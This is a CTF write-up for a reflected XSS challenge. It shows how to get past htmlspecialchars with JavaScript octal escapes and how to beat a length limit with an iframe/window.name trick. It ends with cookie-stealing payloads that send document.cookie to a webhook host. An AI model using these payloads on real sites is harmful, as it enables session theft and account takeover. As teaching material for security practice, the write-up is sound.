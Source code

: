 # Hello everyone, this is my writeup for my web challenge " Xss 3 " that had no solves in JIS CTF 2023 and CAT CTF 23 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/639ccff8-e4fb-40c3-a5ce-dbeec301f48b)

### When we open the link you will find "Enter your name " and after you send it as /?name=ghazy you will get this : 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/408207b2-30aa-4499-98bc-01a9caaa4e6a)

### Since we can clearly see our input reflected in the page so, let's try a basic payload like 
`<img src=x onerror=alert() >`  

### And we will got our input as it 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/eafb90e6-0f92-48fe-89fd-4866c4cd2130)

### Seems filtered right ? so, let's open the html source to see what happened to our payload in the reflection 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/a4d89393-7de3-4945-ad7e-1aa048ebd063)

### If u tried to drop some error by sending `name` parameter as an array you will get this error 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/a68e2425-a3e9-4efb-b1f3-ac8ea2e142b3)

### So, it's become clear now why our payload is filtered !! because our input is being passed to htmlspecialchars php function

> This function filters the html special chars like : [< , > , ' , " , &] in it's default configuration.

### So, this function is safe from bypassing ! 

### But after some hours since no one solved it, i released a hint .

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/2eee0214-63aa-4c78-8f20-b6f9ba3c1000)

### As we see in the response our input is being reflected on a js variable ! 
### So, let's see how we can use it to bypass htmlspecialchars

### If you opened your browser console and tried this :

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/9b448b0f-fb3a-44ff-8d8e-148c64919373)

### As you can see we can write a string by hex escaping using js like any programming / scripting languages ! 

### And since our input will be reflected at the js variable and the js code will print it in the page So, it should work !

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/3dc68b74-15b7-49e3-aad6-2c40bd59d4dd)


### let's try to test it in our challenge

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/238c6305-6ee2-482f-885b-5cfb713a7ffa)

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/7f5c5742-f510-48cb-9f21-8d37717a4527)

### As you can see both of them are filtered !! 

### Seems like the developer read about them in documents and filtered them and that what makes it a real life case : ) 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/82c823ca-7982-4ab5-9b34-12fd489b1db8)


### Then what about using an old escaping that has been deprecated from the js docs : D 

### Yup it's called Octal escpaing. 

> We can escape octals in strings by just using `\`

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/7c9457b5-1dca-4565-a02f-77a52b34b135)


### TBH, i got it while i was debugging my challenge i wasn't know it before : D

### I wrote a simple for loop to print all chars to figure our what's this escaping and after that i knew it's octal : ) 

### So, let's try to escape our html special chars like : [<,>]

> Our Payload : \74img src=x onerror=alert()\76

### And bingoooo, we got our xss !

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/dd303692-266a-43a4-99d7-afa0e85adb48)


### But the problem is we had only 38 chars as a length limit ! So, we can't write a pyload like this to steal the admin cookies:

```javascript

<Script>fetch('http://webhook/?c='+document.cookie)</script>
```

### It's more than 38 chars for sure ! 

### There are many ways to bypass the length limit like : window.open or 13.rs domain : D

### We will use window.open

> In js we can open a new window and control some variables like it's name !

### What about trying to eval our window.name that we will control !

### Like this 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/5b87e6fb-ef68-49e0-8859-f177af611269)


### Since our payload length passed 40 chars so it will not work also : ( 

### So, we need to do it in a smart way : D , like eval without using eval 

### If anyone searched about tiny xss payloads he will see this 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/d78bcb57-4e3d-4621-bff0-43fef076a3b4)

`<iframe/onload=src=top.name>` 

> This payload will refer the iframe src to be the top window name : ) and since we can get xss using iframe src from this payload

```javascript

<iframe src=javascript:alert()>
```

### So, let's exploit this in our side to get alert : )

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/fefb4571-539f-4c1b-9d67-fb0158bba780)

### After bypassing the limit we can use this code to get the admin cookies !

```
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <Script>window.open('http://127.0.0.1/xss3/?name=\\74iframe/onload=src=top.name\\76','javascript:fetch(\'https://dummmmmmmyyyyy.free.beeceptor.com/?c=\'+document.cookie)')</Script>
<p id="a"></p>
<script>a.innerHTML="b";</script>
</body>
</html>

```

### Just host it in any web hook like beeceptor and send it to the bot like this
![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/67634f37-645f-49e5-8080-67b8efa61caa)

### And we got the flag : )

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/d5333978-0e2a-4a2d-bb3b-08c7ab0cb507)


# Thanks for Reading and hope u enjoyed and learned from  it !
